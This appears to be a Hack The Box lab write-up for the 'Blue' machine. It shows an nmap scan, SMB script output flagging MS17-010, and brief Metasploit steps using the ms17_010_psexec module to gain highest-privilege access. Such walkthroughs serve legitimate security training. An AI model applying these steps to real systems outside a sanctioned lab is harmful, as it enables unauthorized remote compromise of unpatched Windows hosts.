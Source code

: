 # Blue

<h1 align=center>
    <br>
    <a href=https://app.hackthebox.com/machines/Blue><img src=images/img.png alt=Blue></a>
    <br>
</h1>

***

__Machine IP__:
```bash
10.129.113.127
```
__Date__: 2024-01-19

***

# Nmap

![](images/nmap.png)
```bash
sudo nmap -sC -sV 10.129.113.127 > Blue/nmap_10.129.113.127
```
RPC and SMB are the only ports open. I'll start with my SMBENUM command and see the results.

# SMBEnum

>Host script results:

|_smb-vuln-ms10-054: false

|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND

| smb-vuln-ms17-010: 

|   VULNERABLE:

|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)

|     State: VULNERABLE

|     IDs:  CVE:CVE-2017-0143

|     Risk factor: HIGH

|       A critical remote code execution vulnerability exists in Microsoft SMBv1

|        servers (ms17-010).

|     Disclosure date: 2017-03-14
> 

# Exploit
I've done this box before so I know that MSF has an exploit built for this. Since I'm getting warmed back up to my hacking career lets do this as initially intended.

1. `msfconole`
2. `search ms17`
3. Select ms17_010_psexec with `use 1`
4. Adjust settings to target. But also make sure that the LHOST is on the HTB network, not your usual IP.
5. `run`

![](images/exploit.png)
No privelege escalation steps required on this box as I'm already running as the highest priveleged user.
